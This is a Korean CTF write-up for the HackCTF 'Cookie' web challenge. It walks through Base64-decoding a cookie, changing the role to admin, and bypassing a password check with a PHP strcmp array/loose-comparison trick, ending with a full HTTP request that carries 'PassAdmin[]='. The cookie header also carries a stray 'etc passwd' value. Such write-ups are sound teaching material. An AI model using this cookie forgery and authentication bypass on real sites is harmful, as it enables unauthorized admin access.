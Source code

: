 ```yaml
---
title: 'HackCTF - WEB - Cookie'
date: 2020-04-05 21:04:76
tags: ["web", "HackCTF", "ctf"]
draft: true
---
```

# HackCTF - WEB - Cookie

일단 문제 사이트에 접근을 합니다.

![image-20191211095951136](image/HackCTF - WEB - Cookie/image-20191211095951136.png)

그러면 이런식으로 쿠키에 무언가가 있다는 것을 암시하는 문구가 나옵니다.

이때 쿠키에 대해 살펴 보면 Cookie 값과 PassAdmin이라는 쿠키가 아래와 같이 보입니다.

![image-20191211100221391](image/HackCTF - WEB - Cookie/image-20191211100221391.png)

![image-20191211100246122](image/HackCTF - WEB - Cookie/image-20191211100246122.png)

이때 Cookie의 값을 보면 Base64의 범위에 속하는 것을 볼 수 있는데 한번 DeCoding을 해봅니다.

![image-20191211100842695](image/HackCTF - WEB - Cookie/image-20191211100842695.png)

한번 Decoding를 했을때 결과 값이 Base64여서 결과 값이 나올때까지 반복하여 DeCoding를 하니 **{"id":"2","type":"guest"}** 값이 나오는데 이때 guest를 admin으로 변경하여 EnCoding를 하여 서버로 전송해봅니다.

![image-20191211102846789](image/HackCTF - WEB - Cookie/image-20191211102846789.png)

패스워드에 대해 틀렸다고 경고를 출력 하는 것을 볼 수 있는데 PassAdmin에 대해서도 우회를 해야 한다는 것을 알 수가 있었습니다.

PHP의 느슨한 비교를 이용하여 공격을 해야 하는 것으로 예상이 됩니다.

PHP의 strcmp(arg1,arg2)함수는 arg1이 더 크면 0보다 큰 값(양수)을 리턴하고 arg2가 더 크면 0보다 작은 값(음수)을 리턴합니다. 그리고 마지막으로 값이 같을때 0을 리턴하게 되는데 이때 **php5.3** 버전에서는 Array타입과 비교를 하면 Null를 리턴을 하게 되는 취약점이 있습니다. 그리고 php의 느슨한 비교를 이용하여 0==null를 비교하게 되면 true를 리턴하게 됩니다. 이제 이점을 이용해서 공격을 해봅니다.

```http
GET / HTTP/1.1
Host: ctf.j0n9hyun.xyz:2027
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.146 Whale/2.6.89.9 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: Hm_lpvt_29884b6641f1b5709cc89a8ce5a99366=1575983513; Hm_lvt_29884b6641f1b5709cc89a8ce5a99366=1575978988; _fbp=fb.1.1575978981442.1558009542; _ga=GA1.2.1648668259.1573465863; _gid=GA1.2.1890637559.1575894614; _hist=TEST%24etc%20passwd; Cookie=WlhsS2NGcERTVFpKYWtscFRFTktNR1ZZUW14SmFtOXBXVmRTZEdGWE5HbG1VVDA5; PassAdmin[]=; PHPSESSID=rmsjabjhdvlhu8cp8bsa995p45; session=.eJwNz7FugzAQANBfqW5mwA7pgNShFSQK1RlR2bHOGwUqsDkiFVUBovx72d_yHlC3PEyQ_tTj3EUwtJAKKV4jmG5T00H6gJdvSKHU16BkdcTMxMTFqDwdFJ9CafOYNIkyC6s7V6uyF4m2Eko6xvNp3C0773pl843kRaA0d9IFl_o9Qc4FekrImtjpJkHf90pfGXVzQI-Lyj6C021w_mtQTCsy7sas5MPR2XxRuyFtFvSqx6wfaDN3tdEbPCP4m7vfqeY9AEXdzd3tc2B4_gM2Xk4a.EM_P2A.Gx4Mr9GrGMSRPs5hUMFmOdKw-Es; wcs_bt=55c48ac9e22bec:1575983512
Connection: close
```

![image-20191211112526165](image/HackCTF - WEB - Cookie/image-20191211112526165.png)
